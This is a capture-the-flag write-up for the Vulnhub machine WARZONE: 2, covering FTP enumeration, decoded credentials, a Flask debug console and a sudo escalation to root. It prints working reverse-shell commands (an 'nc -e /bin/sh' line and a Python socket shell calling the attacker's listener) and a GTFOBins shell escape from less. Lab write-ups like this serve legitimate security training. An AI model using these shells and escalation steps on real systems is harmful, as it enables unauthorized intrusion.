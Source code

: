 ```yaml
---
layout: post
title:  "Vulnhub - WARZONE: 2"
date:   2020-11-14 21:00:00 +1100
category: hacking
---
```


## Introduction
*Enumeration, Flask, Port Forwarding, GTFObins  
Created and Tested in Virtual box (NAT network)  
Hint : lowercase letters*  

This is [WARZONE: 2](https://www.vulnhub.com/entry/warzone-2,598/) from Vulnhub. 

## Ports
We've got 3 ports - FTP, SSH and 1337. 
What's 1337? nmap doesn't give us much, so let's netcat it:

{% highlight shell %}
root@kali:/opt/vulnhub/warzone2# nc 192.168.1.144 1337
# WARZONE 2 # WARZONE 2 # WARZONE 2 #
{SECRET SYSTEM REMOTE ACCESS}
{% endhighlight %}

Okay it's the **SECRET SYSTEM REMOTE ACCESS**. Let's come back to this in a minute.

## FTP
We have anonymous access, and there are three PNG images in the folder. One called *username*, one called *password* and one called *token*. The password and username files are images of semaphore flag messages. We can decode them by referring to a semaphore chart, and we derive the combination:

>semaphore:signalperson

The token PNG file gives instructions on how to generate a token; essentially it's a SHA256 hash of the username and password - it comes to:

>833ad488464de1a27d512f104b639258e77901f14eab706163063d34054a7b26

## 1337
With our credentials above we can log in to the secret system using netcat. We can only do 3 commands:

{% highlight shell %}
Success Login
[SIGNALS] { ls, pwd, nc}
[semaphore] > pwd
[+] Recognized signal
[+] sending......
/home/flagman
[semaphore] > ls
[+] Recognized signal
[+] sending......
{% endhighlight %}

We can't do *ls* with a directory, so we can't list files outside of */home/flagman*. However we can do *nc* with extras, so we can do:

``
[semaphore] > nc -e /bin/sh 192.168.1.77 1234
``

And with a listener we get our first shell.

## www-data
With some enumeration as *www-data* we can find an SSH password for flagman:

{% highlight shell %}
www-data@warzone2:/home/flagman/warzone2-socket-server$ ls -lash
ls -lash
total 20K
4.0K drwxr-xr-x  2 flagman flagman 4.0K Nov  8 18:25 .
4.0K drwxr-xr-x 16 flagman flagman 4.0K Nov  8 19:17 ..
4.0K -rw-r--r--  1 flagman flagman   34 Nov  8 16:27 .mysshpassword
4.0K -rwxr-xr-x  1 flagman root    3.7K Nov  8 14:59 warzone2.jar
4.0K -rwxr-xr-x  1 flagman flagman   72 Nov  8 17:50 warzone2.sh
www-data@warzone2:/home/flagman/warzone2-socket-server$ cat .my	
cat .mysshpassword 
Did you know that i_hate_signals!
{% endhighlight %}

## Flagman
Now we can SSH in as flagman. Once we're there, we find that *flagman* can run a command as *admiral*; so let's do it:

{% highlight shell %}
User flagman may run the following commands on warzone2:
    (admiral) NOPASSWD: /usr/bin/python3 /home/admiral/warzone2-app/wrz2-app.py
    
    
    
lagman@warzone2:/home/admiral/warzone2-app$ sudo -u admiral /usr/bin/python3 /home/admiral/warzone2-app/wrz2-app.py
 * Serving Flask app "wrz2-app" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: on
 * Running on http://127.0.0.1:5000/ (Press CTRL+C to quit)
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 182-647-262
{% endhighlight %}

So, what is this? It's a Flask app running in debug mode on localhost. We need to get access to it, so we can set up a port forward in Kali:

``
root@kali:/opt/vulnhub/warzone2# ssh -L 9999:127.0.0.1:5000 flagman@192.168.1.144
``

And then in Kali we can visit http://localhost:9999/ and get access to the webapp.

## Flask
The front page doesn't give much away:

>    Warzone 2  
Under construction  
search result :None 

I run a gobuster on localhost:

``
root@kali:/opt/vulnhub/warzone2# gobuster dir -u http://localhost:9999 -w /usr/share/seclists/Discovery/Web-Content/common.txt 
``

And this finds a directory called */console*. We need to enter the PIN we found earlier, and then we can enter python commands into the console.

I use the Pentestmonkey python reverse shell code with a new listener:

``
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.77",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
``

And now I have a shell as *admiral*. 

## Admiral to root
Admiral can run a command as root; specifically, he can use *less* to read */var/public/warzone-rules.txt*. We can exploit this per [GTFOBins](https://gtfobins.github.io/gtfobins/less/#sudo) by running the command and then running **!/bin/sh**.

{% highlight shell %}
admiral@warzone2:/dev/shm$ sudo -u root /usr/bin/less /var/public/warzone-rules.txt
sudo -u root /usr/bin/less /var/public/warzone-rules.txt
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
Desktop  Documents  Downloads  Music  Pictures	Public	Templates  Videos
# cd Desktop
cd Desktop
# ls -lash
ls -lash
total 12K
4.0K drwxr-xr-x  2 root root 4.0K Nov  8 16:41 .
4.0K drwx------ 16 root root 4.0K Nov 14 04:09 ..
4.0K -r--------  1 root root  332 Nov  8 09:59 gold.txt
# cat gold.txt
cat gold.txt
         (                  )
       (  \                /  )
        \  \              /  /
         \  \    ____    /  /
          \  \_ //  \\ _/  /
           \   //    \\   /
            \_(# GOLD #)_/
               \\    //
                \\__//

    FLAG : {# GOLD MEDAL #}
    NAME : WARZONE 2
    BY   : Alienum with <3
{% endhighlight %}

## Final Thoughts
I *really* enjoyed this one, it was a cracker. Easily my favourite since Nully 1. Thanks Alienum.

